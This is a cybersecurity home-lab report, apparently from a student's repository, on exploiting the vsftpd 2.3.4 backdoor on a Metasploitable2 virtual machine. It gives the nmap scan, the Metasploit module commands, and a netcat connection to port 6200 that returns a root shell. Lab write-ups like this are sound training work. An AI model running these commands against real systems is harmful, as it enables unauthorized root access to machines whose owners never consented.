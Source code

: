 #  Cybersecurity Home Lab - Report Template

## Lab Title: Exploiting FTP Backdoor Vulnerability (vsftpd 2.3.4)

###  Objective

Demonstrate identification and exploitation of a known FTP vulnerability (vsftpd 2.3.4) to achieve unauthorized remote shell access.



### Lab Environment

| Component        | Configuration                            |
| ---------------- | ---------------------------------------- |
| Attacker Machine | Kali Linux (VirtualBox, 2 CPUs, 4GB RAM) |
| Target Machine   | Metasploitable2 (Host-only Network)      |
| Network Setup    | Host-only Adapter + NAT for Kali         |



###  Vulnerability Details

| Property       | Value                                              |
| -------------- | -------------------------------------------------- |
| Service        | FTP                                                |
| Version        | vsftpd 2.3.4                                       |
| Port           | 21                                                 |
| CVE            | N/A (backdoor, not official CVE)                   |
| Exploit Module | `exploit/unix/ftp/vsftpd_234_backdoor`             |
| Description    | Malicious backdoor allows root shell via port 6200 |

Reference: [Rapid7 Module](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor)



### 🛠️ Exploitation Steps

#### 1. Discovery - Nmap Scan


nmap -sV 192.168.56.102 -p 21


**Result**:


PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4


#### 2. Exploit with Metasploit

msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.102
set RPORT 21
run

**Result**:

[*] 192.168.56.102:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.56.102:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

#### 3. Manual Shell Access

nc 192.168.56.102 6200
whoami


**Result**:
root

###  Outcome

* Successfully accessed root shell manually after exploit.
* Metasploit failed to open session but backdoor was live on port 6200.

###  Screenshots

* Nmap scan result: (![Nmap_Scan](screenshot/nmap_scan_result.png))
* Metasploit output and Netcat shell with 'root': (![metasploit_output](screenshot/exploit_result.png))
* attacker network setup: (![attacker_net](screenshot/attack-network-set.png))
* kali ping target : (![kali-ping](screenshot/kali_ping_target.png))
* metasploitable network setup: (![metasploit_net](screenshot/meta-network-set.png))



## Target Information

* Target IP: 192.168.56.102
* OS and Services (nmap result):

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4

## Vulnerability Details

* Vulnerability name: vsftpd 2.3.4 Backdoor
* Exploit used: Metasploit module + manual netcat connection
* CVE (if known): N/A (undocumented backdoor)

## Steps Taken

1. Scanned with Nmap
2. Identified vulnerable service (FTP vsftpd 2.3.4)
3. Exploited using Metasploit and Netcat

## Results

* Shell access: Yes (via port 6200)
* Screenshot: ![metasploit_output](exploit_result.png)

## Lessons Learned

* Always verify open ports post-exploit for manual access.
* Not all Metasploit exploits result in automated sessions.
* Critical to understand service versions and exploit behavior.
